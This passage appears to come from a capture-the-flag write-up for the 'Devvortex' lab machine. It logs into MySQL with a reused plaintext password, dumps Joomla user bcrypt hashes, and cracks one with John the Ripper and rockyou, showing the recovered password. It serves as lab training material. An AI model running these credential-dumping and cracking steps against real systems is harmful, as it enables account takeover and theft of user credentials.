 luckly the password of the DB is the same as the admin login

and after some spam for mysql 

```bash
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
show databases;
Database
information_schema
joomla
performance_schema
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
use joomla;
show tables;
Tables_in_joomla
sd4fg_action_log_config
sd4fg_action_logs
[REDACTED_TRASH]
sd4fg_user_keys
sd4fg_user_mfa
sd4fg_user_notes
sd4fg_user_profiles
sd4fg_user_usergroup_map
sd4fg_usergroups
sd4fg_users
www-data@devvortex:~/dev.devvortex.htb$ mysql -u lewis -p
mysql -u lewis -p
Enter password: P4ntherg0t1n5r3c0n##
SELECT * FROM joomla.sd4fg_users;
id      name    username        email   password        block   sendEmail       registerDate    lastvisitDate   activation      params  lastResetTime   resetCount   otpKey  otep    requireReset    authProvider
649     lewis   lewis   lewis@devvortex.htb     $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u    0       1       2023-09-25 16:44:24     2023-11-25 19:33:40  0               NULL    0                       0
650     logan paul      logan   logan@devvortex.htb     $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12    0       0       2023-09-26 19:15:42 NULL             {"ad
```

so we go to crack the password 

```bash
┌──(root㉿kali)-[/home/kali/joomla-bruteforce]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt  hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
tequieromucho    (logan)     
1g 0:00:00:13 DONE (2023-11-25 15:30) 0.07293g/s 102.4p/s 102.4c/s 102.4C/s lacoste..harry
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
                                                                                                                                                                                                                                                                       
┌──(root㉿kali)-[/home/kali/joomla-bruteforce]
└─# cat hash                                                                         
logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```
